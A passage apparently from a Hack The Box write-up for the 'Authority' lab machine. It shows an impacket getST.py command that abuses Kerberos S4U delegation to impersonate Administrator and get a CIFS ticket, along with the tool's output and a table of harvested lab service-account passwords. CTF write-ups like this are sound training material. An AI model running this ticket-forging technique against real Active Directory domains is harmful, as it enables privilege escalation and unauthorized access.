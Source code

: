 And get a Silver Ticket:

```bash
➜  authority faketime "$(ntpdate -q authority.htb | cut -d ' ' -f 1,2)" getST.py -spn 'cifs/AUTHORITY.AUTHORITY.HTB' -impersonate Administrator 'authority.htb/irem$:Winter2025!'
/usr/local/bin/getST.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('impacket==0.13.0.dev0+20250523.184829.f2f2b367', 'getST.py')
Impacket v0.13.0.dev0+20250523.184829.f2f2b367 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_AUTHORITY.AUTHORITY.HTB@AUTHORITY.HTB.ccache

```

BAMMM!!!!!!!!!!!!

## Creds

| username | password / hash | work at | from | privileges |
| --- | --- | --- | --- | --- |
| - | !@#$%^&* | ansible | - | - |
| svc_pwm | pWm_@dm!N_!2 | pwm - website | ansible | - |
| svc_ldap | lDaP_1n_th3_cle4r! | LDAP | poising PWM | ESC1 |
